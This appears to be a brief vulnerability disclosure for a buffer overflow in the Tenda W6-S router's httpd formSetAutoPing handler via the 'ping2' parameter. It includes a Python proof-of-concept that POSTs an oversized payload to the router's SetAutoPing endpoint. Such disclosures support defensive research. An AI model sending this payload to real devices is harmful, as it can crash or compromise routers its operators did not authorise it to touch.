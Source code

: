 # buff overflow

## Tenda_W6_S

version: V1.0.0.4(510)

## Description:

There is a buff overflow in httpd/formSetAutoPing via parameter 'ping2'

## Source:

you may download it from : https://www.tendacn.com/download/detail-3478.html

## Analyse:

![](6.png)

get value from ping2, then call sprintf, cause buff overflow

## POC

```
url = "http://192.168.1.13/goform/SetAutoPing"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={'ping2': payload, 'linkEn':1})
```
